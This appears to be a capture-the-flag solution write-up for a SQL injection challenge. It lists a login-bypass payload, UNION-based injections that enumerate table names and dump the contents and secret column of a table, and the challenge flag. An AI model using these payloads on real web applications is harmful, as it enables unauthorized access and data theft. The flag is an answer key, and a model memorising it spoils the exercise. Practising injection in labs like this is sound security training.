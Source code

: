 # Solution to the SQL injection challenge

## Login
**Username:** <code>admin</code>  
**Password:** <code>' OR 1=1 -- </code> (include the space at the end)

## Search Box – Get table names
' UNION ALL SELECT table_name name, 1 type, 1 rank FROM information_schema.tables WHERE table_schema=database() -- 

## Search Box – Get contents of oni_xyza table
' UNION ALL SELECT name, type, rank FROM oni_xyza -- 

## Search Box – Get contents of secret column oni_xyza table
' UNION ALL SELECT name, type, secret FROM oni_xyza -- 

NYP{T4mAy0_i5_Qu33N}